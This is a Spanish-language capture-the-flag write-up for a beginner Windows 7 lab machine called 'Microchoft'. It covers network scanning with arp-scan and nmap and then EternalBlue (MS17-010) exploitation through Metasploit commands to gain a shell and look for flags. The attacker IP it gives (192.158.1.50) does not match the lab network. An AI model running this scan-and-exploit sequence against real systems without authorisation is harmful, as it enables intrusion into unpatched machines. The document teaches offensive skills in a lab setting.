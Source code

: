 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Microchoft

### 🔍 **RECONOCIMIENTO**

En primer lugar, miramos la **IP** de la máquina víctima con este comando:

```bash
sudo arp-scan --interface=eth0 --localnet
```

<figure><img src="../../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

En segundo lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.57
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Definitivamente es una máquina Windows porque el TTL=128.

A continuación, se realiza el comando:

```bash
sudo nmap -p- --open -sS -Pn --min-rate 5000 -n 192.168.1.57
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los siguientes puertos están abiertos:

* **135/tcp**: Pertenece al servicio **MSRPC** (Microsoft Remote Procedure Call), que es utilizado para la comunicación entre procesos en sistemas Windows.
* **139/tcp**: Pertenece al servicio **NetBIOS-SSN** (NetBIOS Session Service), utilizado por redes que ejecutan el protocolo SMB (Server Message Block) en sistemas Windows.
* **445/tcp**: Pertenece al servicio **Microsoft-DS** (Microsoft Directory Services), utilizado para compartir archivos en redes Windows mediante el protocolo SMB.

Además, se han detectado varios puertos en el rango dinámico de Windows (49152-65535) abiertos, pero sin un servicio conocido específico:

* **49152/tcp - 49157/tcp**: Puertos marcados como **unknown**, los cuales pueden estar relacionados con servicios de red personalizados o asignados dinámicamente por el sistema operativo para uso de aplicaciones específicas.

Dado que los puertos **135/tcp**, **139/tcp**, y **445/tcp** están abiertos, se indagará más en relación a estos puertos para evaluar posibles vulnerabilidades o configuraciones incorrectas en los servicios SMB y MSRPC, que son comúnmente utilizados en entornos Windows y pueden ser potenciales vectores de ataque si no están adecuadamente asegurados.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.57
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **445/tcp** perteneciente al servicio **Microsoft-DS** está abierto. Este puerto es utilizado para compartir archivos y otros recursos en redes Windows mediante el protocolo SMB (Server Message Block).

Al analizar más a fondo, se ha detectado que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** y está configurado en el grupo de trabajo **WORKGROUP**. Este sistema, con el **puerto 445 abierto**, es particularmente preocupante ya que es vulnerable a la famosa vulnerabilidad **EternalBlue**.

**EternalBlue**, que afecta versiones de Windows no actualizadas, explota una vulnerabilidad crítica en el protocolo SMBv1, lo que podría permitir la ejecución remota de código y, en consecuencia, el control completo del sistema afectado. Esta vulnerabilidad ha sido utilizada en ataques masivos como el ransomware **WannaCry**.

Dado que estamos frente a un sistema operativo obsoleto (Windows 7), y que el puerto **445/tcp** está expuesto, se procederá a indagar más para determinar si el sistema es susceptible a esta vulnerabilidad y recomendar medidas de mitigación, como la actualización del sistema operativo o la desactivación del protocolo SMBv1.\


Por eso mismo revisamos si es vulnerable por si acaso con el comando:

```
nmap -p445 --script="vuln and safe" 192.168.1.57
```

<figure><img src="../../.gitbook/assets/imagen (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
msfconsole
```

<figure><img src="../../.gitbook/assets/imagen (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación se intentará explotar esa vulnerabilidad a través de la herramienta **Metasploit**. Se busca la vulnerabilidad exacta que obtenida en el anterior escaneo.

```bash
search ms17-010
```

<figure><img src="../../.gitbook/assets/imagen (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el segundo ya que tenemos un **Windows 7** de máquina víctima.

```bash
use 2
```

<figure><img src="../../.gitbook/assets/imagen (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos las opciones que tenemos que configurar con el comando:

```bash
show options
```

<figure><img src="../../.gitbook/assets/imagen (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, configuramos los parámetros necesarios para realizar el ataque:

* **RHOSTS**: Definimos la dirección IP del host remoto (objetivo) como `192.168.1.57`.
* **LHOST**: Establecemos la dirección IP de nuestro host local (atacante) como `192.158.1.50`.

<figure><img src="../../.gitbook/assets/imagen (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de haber configurado estos parámetros correctamente, procederemos a verificar si el objetivo es explotable. Esto implica ejecutar la explotación para confirmar si la vulnerabilidad está presente y si podemos obtener acceso o control del sistema remoto.

```bash
exploit
```

<figure><img src="../../.gitbook/assets/imagen (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro ejecutamos:

```bash
pwd
```

<figure><img src="../../.gitbook/assets/imagen (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

A medida que avanzamos en nuestra investigación, revisaremos los directorios de los usuarios **Admin** y **Lola** para encontrar las diferentes flags requeridas en este reto.

¡Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
